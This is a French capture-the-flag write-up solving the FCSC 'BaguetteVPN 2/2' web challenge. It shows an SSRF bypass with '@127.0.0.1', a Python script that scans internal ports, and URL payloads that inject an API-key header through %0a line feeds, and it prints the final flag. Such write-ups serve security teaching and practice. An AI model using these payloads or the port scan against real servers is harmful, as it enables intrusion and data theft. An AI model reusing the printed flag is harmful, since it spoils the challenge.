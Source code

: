 # BaguetteVPN 2/2
<img src="https://user-images.githubusercontent.com/74382279/117364841-b2b29780-aebe-11eb-9e7f-52f116bab774.png"/><br/>
## Résolution
C'est la partie la plus compliquée du challenge.<br/>
Pour commencer, brêve analyse du fichier ```./baguettevpn_server_app_v0.py```.<br/>
Cette fonction devrait nous print le flag:<br/>
```py
@app.route("/api/secret")
def admin():
    if request.remote_addr == '127.0.0.1':
        if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12':
            return jsonify({"secret": os.getenv('FLAG')})
        return Response('Interdit: mauvaise clé d\'API', status=403)
    return Response('Interdit: mauvaise adresse IP', status=403)
```
Cependant, on est confronté face à plusieurs conditions.<br/>
On doit trouver un moyen de requêter à travers le serveur, on s'attend donc à exploiter une faille de type SSRF.<br/>
On s'attaquera à la deuxième condition plus tard.<br/>
## SSRF
En fouillant le site, j'apperçois un point d'injection pottentiellement vulnérable à une SSRF.<br/>
Le paramètre ```/api/image?fn=``` permet de read des fichiers internes.<br/>
Je décide donc d'exploiter ce paramètre, en me munissant de ce cheatsheet plutôt complet: <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery">Link</a>.<br/>
En premier temps j'essaye  ```/api/image?fn=127.0.0.1```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839960727799595079/unknown.png?width=1440&height=323"/><br/>
Malheureusement la requête ne passe pas, j'ajoute donc un ```@``` pour bypass les weak parsers.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/840212540935110706/unknown.png?width=1440&height=335"/><br/>
Malheureusement, toujours rien.<br/>
En lisant l'énoncé du challenge je vois qu'une énumération des ports inférieurs à 2000 est autorisée.<br/>
Je fais donc la même chose en gardant la même injection ```/api/image?fn=@127.0.0.1:[port]``` et en énumérant les ports.<br/>
Pour ce faire, j'ai fait un script afin d'automatiser tout ça.<br/>
```py
import requests as r

if __name__ == "__main__":
	with r.session() as s:
		for i in range(0, 2000 + 1):
			response = s.get("http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:%s" % (str(i)))
			if "Internal Server Error" not in response.text:
				print(response.url)
```
Après quelques minutes je vois que le port ```1337``` a été match.<br/>
Je me rends donc à ```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337```.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839958634514612284/unknown.png?width=1440&height=490"/><br/><br/>
Good, on est sur la bonne voie.<br/>
Je me rends à la path ```/api/secret``` et je vois que requête passe bien localement.<br/><br/>
<img src="https://media.discordapp.net/attachments/768928242467340328/839959391415697428/unknown.png?width=1440&height=462"/><br/><br/>
Première condition validée, on passe donc à la deuxième condition.<br/>
## HTTP Request Smuggling
```py
if request.headers.get('X-API-KEY') == 'b99cc420eb25205168e83190bae48a12'
```
On doit trouver un moyen d'utiliser des headers dans l'URL.<br/>
A ce moment-là, j'ai immédiatement su qu'il s'agissait d'une faille de type HTTP Request Smuggling.<br/>
Dans ce genre de situations, il y a 3 types d'acteurs:<br/>
**• L'attaquant**<br/>
**• Le proxy/firewall**<br/>
**• Le serveur web**<br/>
Cette faille a beaucoup de variantes, généralement elle surgit de cette manière:<br/>
**• L'attaquant se connecte au proxy, il envoie ABC**<br/>
**• Le proxy l'interprète comme AB, C, et le rédirige vers le serveur**<br/>
**• Le serveur web l'interprète comme A, BC, et répond avec r(A), r(BC)**<br/>
**• Proxy caches r(A) pour AB, r(BC) pour C**<br/>
La première chose que je fais c'est ajouter ```HTTP/1.1``` dans l'URL.<br/>
J'obtiens une erreur de parsing plutôt intéressante:<br/>
```PHP
Error response
Error code: 400

Message: Bad request syntax ('GET /api/secret HTTP/1.1 HTTP/1.1').

Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.
```
Je constate que le ```HTTP/1.1``` a bien été ajouté dans le corps de la requête.<br/>
Mon idée consitait à retaper le corps de la requête directement dans l'URL, en faisant attention aux sauts de ligne (Line feed).<br/>
J'ai donc tenté de push le header ```X-API-KEY``` en ajoutant le ```%0a``` (```\n```).<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12```<br/>
Aucun résultat, je suppose qu'il y a un header ```Content-Length``` initialisé à 0 qui bloque la requête.<br/>
Je calcule la taille de la clé ```X-API-KEY```.<br/>
```py
>>> print(len("b99cc420eb25205168e83190bae48a12"))
32
```
J'ajoute le header ```Content-Length``` avec la taille de la clé (```32```).<br/>
```http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=@127.0.0.1:1337/api/secret+HTTP/1.1%0aX-API-KEY:b99cc420eb25205168e83190bae48a12%0aContent-length:32```<br/>
```json
{"secret":"FCSC{6e86560231bae31b04948823e8d56fac5f1704aaeecf72b0c03bfe742d59fdfb}"}
```
Done.<br/>
### Sources
https://bugs.php.net/bug.php?id=80043&edit=1
